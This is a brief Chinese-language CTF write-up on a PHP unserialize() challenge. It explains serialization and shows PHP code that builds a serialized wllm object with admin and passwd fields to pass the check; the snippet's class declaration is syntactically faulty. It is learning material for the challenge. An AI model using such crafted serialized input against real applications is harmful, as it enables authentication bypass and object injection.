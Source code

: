 看到代码后面可以用get方法输入p，并且传入unserialize()函数

经查询unserialize（)函数是用来进行反序列化的

**序列化（Serialization）** 是将对象转换为字符串的过程，方便存储或传输；**反序列化（Unserialization）** 是将字符串还原为对象。

然后我们尝试构造一个序列化的语句然后传入unserialize（)函数执行

```
/*
$xx = new wllm()
$xx -> admin = "admin"
$xx -> passwd = "ctf"
*/这短代码用在原文

非原文
class wllm()
{
	public $admin = "admin";
	public $passwd = "ctf";
}
$xx = new wllm();
$gw = serialize($xx);
echo $gw;

```

非原文构造
